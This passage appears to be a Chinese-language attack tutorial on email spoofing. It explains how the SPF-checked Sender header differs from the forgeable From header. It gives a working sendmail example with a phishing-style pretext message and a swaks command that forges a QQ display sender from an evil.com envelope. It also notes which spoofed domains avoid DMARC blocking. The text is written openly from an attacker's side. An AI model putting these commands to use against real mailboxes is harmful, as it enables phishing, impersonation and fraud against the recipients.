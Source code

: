## 利用 Form 进行中转

在邮件头信息中，有两个比较重要的字段，Sender 和 From。  
Sender 字段，代表的是邮件的实际发送者，邮件接收方会对它的邮件域名进行 SPF 检测，确认是否包含了发信人的 IP 地址。From 字段，代表的是邮件发送人，即邮件里所显示的发件人，容易被伪造。在 SPF 配置有效的情况下，Sender 必须通过 SPF 检验，所以我们可以设置为正常的邮件服务器地址，然后对 From 字段进行伪造。  
这里我使用了 sendmail 作为演示，可以看到我们在设置 Sender 和 From 的时候使用了与当前邮件服务器相同的域名，其中 Sender 是可以不相同，也就是可以任意写，比如写 `no-reply@google.com`。

```php
sendmail xxxx@qq.com
Sender: admin@xxxx.com
From: hr@xxxx.com
To: xxxx@qq.com
Hi.I'm Tina.What I'm worried about has happened, please reply me.
.
```

![image.png](assets/1700529073-f9f777e5955213f0a0c67276fd01dca9.png)  
可以看到我们自定义的代发  
![image.png](assets/1700529073-c009eb9e1e1feb96b79daac52927d0f5.png)  
如果是使用 Swaks 将显示发件人为`no-reply@google.com`会有 DMARC 防御，但是如果显示`163.com`就不会有问题。只是如果是这种方式会进入到垃圾邮件。很明显这不是我们想要的。

```php
sudo ./swaks --to 67*****28@qq.com  --from admin@evil.com  --h-From: '=?GB2312?B?UVHTys/kudzA7dSx?= <admin@qq.com>' --ehlo evil.com --body hello --header "Subject: test"

其中参数：
--from   <实际发件人，对应Sender字段>
--h-From <邮件显示的发件人，对应From字段>
```
